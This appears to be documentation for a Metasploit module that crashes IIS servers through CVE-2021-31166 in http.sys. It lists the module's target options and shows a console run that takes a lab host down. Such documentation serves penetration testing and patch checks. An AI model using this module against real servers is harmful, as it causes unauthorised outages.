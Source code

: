 ## Vulnerable Application

IIS web server on Windows 10 and Windows Server version 20H2 and 2004 without KB5003173.

This module exploits *CVE-2021-31166*, a UAF bug in `http.sys` that was patched by *Microsoft* in May 2021, to cause a BSOD and crash the target IIS server.

## Options

### RHOST

 - **Required**
 - Type: **address**
 - *No default value*

IP address or hostname of the target IIS server.

### RPORT

 - **Required**
 - Type: **integer**
 - Default value: **80**

The port on the target server where IIS is running.

### TARGETURI

 - **Optional**
 - Type: **string**
 - Default value: **/**

The base URL of the IIS install on the target server.

## Scenarios

### Windows 10 20H2 19042.804 running IIS with November 22, 2021 Patches (KB5007253)

```text
msf6 > use exploit/windows/iis/rb_dos_iis_2021_31166
msf6 auxiliary(windows/iis/rb_dos_iis_2021_31166) > show options

Module options (auxiliary/windows/iis/rb_dos_iis_2021_31166):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The URI of the IIS Server.
   VHOST                       no        HTTP server virtual host

msf6 auxiliary(windows/iis/rb_dos_iis_2021_31166) > set RHOST 192.168.56.9
RHOST => 192.168.56.9
msf6 auxiliary(windows/iis/rb_dos_iis_2021_31166) > exploit
[*] Running module against 192.168.56.9

[*] Connecting to target to make sure its alive...
[+] Successfully connected to target. Sending payload...
[+] Payload was sent to the target server. Checking that the server is down...
[+] Target is down.
[*] Auxiliary module execution completed
msf6 auxiliary(windows/iis/rb_dos_iis_2021_31166) > 
```

![Metasploit demonstration](https://mauricelambert.github.io/vulnerability/images/CVE-2021-31166_demo.gif "Metasploit demonstration")
